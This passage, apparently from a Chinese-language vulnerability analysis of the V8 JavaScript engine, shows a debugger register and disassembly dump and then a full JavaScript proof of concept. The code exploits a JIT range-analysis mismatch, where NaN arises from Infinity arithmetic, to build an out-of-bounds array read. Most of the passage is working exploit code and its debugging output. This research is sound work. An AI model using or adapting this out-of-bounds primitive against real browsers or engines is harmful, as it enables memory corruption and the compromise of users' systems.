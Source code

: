 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01eb68dc5b1eea52b3.png)

从IR图中，未分析出任何异常，因此，我们继续调试JIT代码

```
R8   0x80000000
 R9   0x55f4d8748520 —▸ 0x17608100000 ◂— 0x40000
 R10  0x4023cccccccccccd
 R11  0x5
*R12  0x17608243c81 ◂— 0x310000005408040b
 R13  0x17600000000 —▸ 0x7ffebe6b7a18 ◂— 0x17600000000
 R14  0x1760825009d ◂— 0x89000000e0080409
 R15  0x55f4d87144c0 —▸ 0x7f451f0e2360 (Builtins_WideHandler) ◂— lea    rbx, [rip - 7]
 RBP  0x7ffebe6b67b0 —▸ 0x7ffebe6b6810 —▸ 0x7ffebe6b6838 —▸ 0x7ffebe6b68a0 —▸ 0x7ffebe6b68f0 ◂— ...
 RSP  0x7ffebe6b6780 —▸ 0x7ffebe6b67c0 ◂— 0xa /* '\n' */
*RIP  0x17600082d2b ◂— add    r8d, 2
───────────────────────────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────────────────────────
   0x17600082d12    mov    r11, qword ptr [rbp + 0x10]
   0x17600082d16    sar    r11d, 1
   0x17600082d19    movabs r12, 0x17608243a45
   0x17600082d23    mov    r12d, dword ptr [r12 + 3]
   0x17600082d28    add    r12, r13
 ► 0x17600082d2b    add    r8d, 2
```

调试中看出,在执行`x += 2;`时，x(寄存器r8)的值仍然为`0x80000000`，最终使得运算的下标为`R8   0x8000000a`，即有一个符号位的存在，因此，我们可以在最后添加一个移位操作，用于移除`NaN`计算造成的符号位。完整的OOB构造方法如下

```
function opt(index) `{`
    var a = [1.1,2.2,3.3,4.4,5.5,6.6,7.7,8.8,9.9];
    var x = -Infinity;
    var i = 0;
    for (; i &lt; 1; i += x) `{`
        if (i == -Infinity) x = +Infinity;
    `}`
    //compiler:Range(1,INF)
    //reality:NaN
    var x = Math.max(i,1); //
    //compiler:Range(-INF,-1)
    //reality:NaN
    x = -x; //
    //compiler:Range(-2,-1)
    //reality:NaN
    x = Math.max(x,-2);
    //compiler:Range(-2,-1)
    //reality:0
    x &gt;&gt;= 0; //
    //compiler:Range(0,1)
    //reality:2
    x += 2;
    //compiler:Range(0,7)
    //reality:Range(0,7)
    index &amp;= 0x7;
    //compiler:Range(0,7)
    //reality:Range(0,14)
    index *= x;
    index &lt;&lt;= 1;
    index &gt;&gt;= 1;
    return a[index];
`}`
%PrepareFunctionForOptimization(opt);
print(opt(5));
```